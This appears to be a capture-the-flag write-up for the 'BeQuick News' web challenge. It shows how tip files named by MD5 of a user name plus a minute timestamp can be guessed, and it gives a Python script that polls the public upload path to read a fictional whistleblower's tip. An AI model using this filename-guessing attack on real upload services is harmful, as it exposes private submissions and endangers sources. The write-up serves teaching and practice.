

# BeQuick News (Web)

Author: halvis

An anonymous informant identity was compromised today. For now, the only communication between us and the informant has been through via our tip hotline. Could you figure out how the identity of the source may have been exposed?

https://bequick-news.chall.uiactf.no

# Writeup

Analyzing [upload.html](./upload.html) I quickly see that each file is processed by a javascript snippet.

```javascript	
// Get cookie value
const userCookie = getCookie('user');
if (!userCookie) {
    alert('User cookie not found.');
    return;
}

// Get current timestamp in minutes
const timestamp = Math.floor(Date.now() / 60000);

// Generate filename
const rawString = userCookie + timestamp;
const secure = CryptoJS.MD5(rawString).toString();
const newFileName = secure + '.txt';

// Create FormData and append the file
const formData = new FormData();
formData.append('file', originalFile, newFileName);

// Upload file
// Replace 'your-server-endpoint' with your actual upload handling endpoint
fetch('upload-tips', {
    method: 'POST',
    body: formData
})
.then(response => response.json())
.then(data => console.log(data))
.catch(error => console.error(error));
```

So the filename is generated by concatenating the user's cookie and the current timestamp in minutes, then hashing the result with MD5. The file is then uploaded to the server. Uploading any files now results in an error message: 

`For now, we have limited access to this functionality to a few organizations. Only the shared user 'tipuser' is allowed to upload for now, to stop the recent waves of fake tips. Want access? Contact us.`

Browsing the server I find the `/static` path which seems to contain the uploaded files.



My first thought is that it might be `2024-02-26 20:11` which is the timestamp but this seems to fail when concatting the timestamp with tipuser and generating a md5: 

```
md5(tipuser28482911) = ebf0a0d5660befbe9a4c276eb38c7f85.txt
```

This file is not to be found in the `tmp_upload` directory.

So I tried to use currenttime and bruteforce +- 30 minutes from now. And suddenly I had the flag

```
I am reaching out to disclose information regarding my former employer, a leading player in Norway's salmon industry, involved in unethical tax evasion practices. As a recent member of their finance department, I witnessed firsthand the implementation of dubious accounting methods designed to significantly minimize tax liabilities.

My opposition to these practices ultimately led to my dismissal. I believe this matter deserves public attention due to its potential impact on tax fairness and the integrity of the industry. I am willing to provide further details and evidence to support an investigation into these allegations.

Please contact me if you are interested in pursuing this story. you can contact me on my private email: awilliams@proton.me
 
UIACTF{pr0tect_your_sources}
```

I've modified the [solve.py](./solve.py) to be more correct as this is a time based attack. We need to check the file before it is processed and removed. So we need to constantly check the url.

```python
import sys
import requests
import hashlib
import time
import math

user = "tipuser"

while True:
    now = math.floor(time.time() / 60)
    rawstring = user + str(now)
    secure = hashlib.md5(rawstring.encode("utf-8")).hexdigest()
    url = "https://bequick-news.chall.uiactf.no/static/tmp_upload/" + secure + ".txt"

    r = requests.get(url)

    if r.status_code == 200:
        print(r.text)
        sys.exit(0)
    else:
        print("Nope")
        time.sleep(1)
```